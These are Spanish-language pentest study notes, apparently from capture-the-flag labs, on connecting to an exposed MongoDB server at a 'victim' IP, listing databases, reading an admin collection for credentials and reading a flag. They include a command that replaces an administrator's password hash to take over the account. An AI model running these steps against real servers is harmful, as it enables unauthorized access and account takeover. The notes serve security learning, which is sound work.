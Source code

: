 MongoDB es una base de datos NoSQL orientada a documentos que guarda la información en formato similar a JSON (BSON).  
Es flexible, escalable y muy usada para aplicaciones web modernas y datos no estructurados.
Normalmente corre por el puerto 27017

# Como instalarlo
Esto nos va a dejar en la carpeta bin, un binario ejecutable que se llama .mongosh
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xvf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
```

------
# Como conectarse a la base de datos

```shell
./mongosh mongodb://Ip:Puerto
Ejemplo: ./mongosh mongodb://10.129.228.30:27017
```
*Parametros*
`./mongosh` Es el nombre del ejecutable
`Ip` Ip de la victima
`Puerto` Puerto de la victima

## Otra forma de conectarse si la maquina victima ya tiene instalado mongodb es 

```
mongo --port 27117
```
![[Unified8.png]]
En este caso estaba usando el puerto 27117, pero podemos ver cual puerto es con [[ps faux y ps -eo]] `ps aux | grep mongod`

![[Unified7.png]]


-------
# Como visualizar contenido de archivos

`show dbs` Es para visualizar todas las bases de datos
`use NombreBaseDeDatos` Seleccionamos la base de datos que queremos usar
`show collections` Es como una tabla en sql que tiene documentos
`db.NombreDelArchivo.find().pretty()` Esto sirve para visualizar el contenido del archivo que queremos ver
`db.admin.find()` Se ven los datos de la tabla admin que puede contenter contraseñas **`admin` no es una colección por defecto**, sino una base de datos especial que contiene usuarios y configuraciones administrativas.
``db.admin.update`` Sirve para cambiar un dato de la tabla admin. En este ejemplo estamos cambiando la contraseña  que esta en SHA-512: |     db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU."}})


Ejemplo de una intrusion real
```mongodb
show dbs
use sensitive_information
show colletions
db.flag.find().pretty()
```

![[Mongod4.png]]




# Notas

Mongodb se llama la base de datos pero mongod es el demonio corriendo el proceso